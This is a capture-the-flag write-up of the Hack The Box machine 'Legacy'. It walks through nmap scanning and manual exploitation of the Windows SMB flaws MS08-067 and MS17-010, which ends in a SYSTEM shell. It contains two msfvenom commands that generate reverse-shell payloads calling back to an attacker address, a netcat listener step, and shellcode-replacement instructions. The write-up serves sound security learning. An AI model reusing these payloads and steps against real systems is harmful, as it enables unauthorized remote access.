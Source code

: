 ![legacy](https://user-images.githubusercontent.com/43796175/105492077-5e740680-5c85-11eb-8224-07901100704c.jpg)

## LEGACY: Write Up

In this machine i learn about MS-08-067 (CVE-2008-4250) and MS-17-010 (CVE-2017-0143), two exploits of SMB. Exploit this vulnerability manually is simple.

# 01: Information Gathering

First of all i ran nmap with basic commands and i saw two open ports and one closed:

![nmap](https://user-images.githubusercontent.com/43796175/105779180-cf444880-5f3b-11eb-8233-22831472876c.jpg)

Then i did a deeper scan with nmap against 445 port:

![smbnmap](https://user-images.githubusercontent.com/43796175/105779606-b5573580-5f3c-11eb-87a3-a4b20fd80a5b.jpg)
![smbnmap02](https://user-images.githubusercontent.com/43796175/105779613-b7b98f80-5f3c-11eb-86f4-92610487a8b2.jpg)

Nmap showed MS-08-067 (CVE-2008-4250) and MS-17-010 (CVE-2017-0143) are very interesting to exploit.

# 02: Threat Modeling

In my mental map smbclient and smbmap were the first option to test, but without results:

![smbno](https://user-images.githubusercontent.com/43796175/105781825-3d3f3e80-5f41-11eb-8e15-73347d9c62f0.jpg)


# 03: Vulnerability Analysis

Both of these vulnerabilities (MS-08-067 & MS-17-010) gives a shell as system and each one have a metasploit module for exploit easily but i will show how exploit this manually.

# 04: Exploitation

## MS-08-067

I will use [this exploit](https://github.com/andyacer/ms08_067) for exploit the vulnerability, this script requires impacket and replace the default shellcode with some of my own. Ok, to make the shellcode i used *msfvenom*:

`
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.11 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
`


![venom,](https://user-images.githubusercontent.com/43796175/105800547-fb27f400-5f64-11eb-9111-86f7272892ed.jpg)

The parameters are:

* -p: Type of payload (Single payload, you can learn about this [here](https://github.com/rapid7/metasploit-framework/wiki/How-payloads-work) )
* LHOST: Host where reverse connection is follow
* LPORT: Port where reverse connection is follow
* EXITFUNC: How is the exit
* -b: The bad characters not to use (The script gave me this)
* -f: Output in python format
* -v: Have the code set the variable *shellcode*
* -a: Architecture of the output
* --platform: OS for script (Windows in this case)

Then i will take this shellcode into the script and replace in the original:

![replce](https://user-images.githubusercontent.com/43796175/105800728-6b367a00-5f65-11eb-98b4-e046daddc172.jpg)

The exploit require that i know the version of Windows and language pack are running in the victim. I ran nmap again for this purpose:

![os](https://user-images.githubusercontent.com/43796175/105800920-e9931c00-5f65-11eb-9d2a-2bed37a3e6ba.jpg)

Apparently the version can be Windows XP, and with the language pack i tried to find the right one.

NOTE: In this point, i had a problem with *pip* and *pip3* in Parrot OS Security, for repair part [this problem](https://forum.hackthebox.eu/discussion/3940/installing-pip2-apt-install-python-pip-no-longer-works) i need a file "*get_pip.py*" provided by [Dr. Zaiuss](https://github.com/zaiuss). You can find this file [*here*](https://github.com/0xCGonzalo/HtB-Write-Ups/blob/main/Machines/Legacy/get_pip.py)

Now, i set a netcat in the port 443 (configured in my shellcode):

![nc](https://user-images.githubusercontent.com/43796175/105801440-1f84d000-5f67-11eb-9ce4-6d4a88410f89.jpg)

And i run the script:

![okcon](https://user-images.githubusercontent.com/43796175/105801530-4d6a1480-5f67-11eb-9ae5-b0d2467afe71.jpg)

I checked my connection and i got a reverse shell:

![ok1](https://user-images.githubusercontent.com/43796175/105801634-85715780-5f67-11eb-803c-6a6c43970390.jpg)

## MS-17-010

I found a lot of exploits for MS-17-010 but doesn't work in Windows XP. Fortunately, i found [this repo](https://github.com/helviojunior/MS17-010) of [Helviojunior](https://github.com/helviojunior), he added a "*send_and_execute.py*", which i can give an executable and it will upload and run it:

![wget2](https://user-images.githubusercontent.com/43796175/105803070-a25b5a00-5f6a-11eb-9c60-759e250c976e.jpg)

I will use *msfvenom* again, but in this time, i don’t need to worry about bad characters or variable names because i can use *exe* file:

`
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.11 LPORT=442 EXITFUNC=thread -f exe -a x86 --platform windows -o rev_10.10.14.11_443.exe
`

![msvenom2](https://user-images.githubusercontent.com/43796175/105803357-4ba25000-5f6b-11eb-8d59-b5d24a3ccafb.jpg)

Now i will start a listener and then run the exploit:

![last1](https://user-images.githubusercontent.com/43796175/105803825-3ed22c00-5f6c-11eb-92b5-158c5576cc8f.jpg)

And i get a shell:

![ok2](https://user-images.githubusercontent.com/43796175/105803896-6fb26100-5f6c-11eb-845d-205f7a81bc47.jpg)

# 05: Post-Exploitation

As you may noticed, the system command "*whoami*" doesn't work in anyone case. Let's fix this.

First, is necessary check the path of this binary in your system (i'm running Parrot OS, but in Kali Linux work fine):

`
/usr/share/windows-binaries/
`

![whoami](https://user-images.githubusercontent.com/43796175/105804291-6aa1e180-5f6d-11eb-92f2-c410027c53d8.jpg)

Now, i will use *smbserver.py* for share my folder and use the binary *whoami* in the victim machine:

![server](https://user-images.githubusercontent.com/43796175/105804410-bce30280-5f6d-11eb-8fac-84cb427ea3c6.jpg)

Then, you can run this and see that you're system:

![final](https://user-images.githubusercontent.com/43796175/105804555-1814f500-5f6e-11eb-9903-0efb3c9cbbc2.jpg)

![syst](https://user-images.githubusercontent.com/43796175/105804532-092e4280-5f6e-11eb-9921-102db8b7ad11.jpg)

There are other ways i could check, like having access to write in certain places (system32 path for example). 

Getting *whoami.exe*is certainly one of the easiest and most definitive methods.
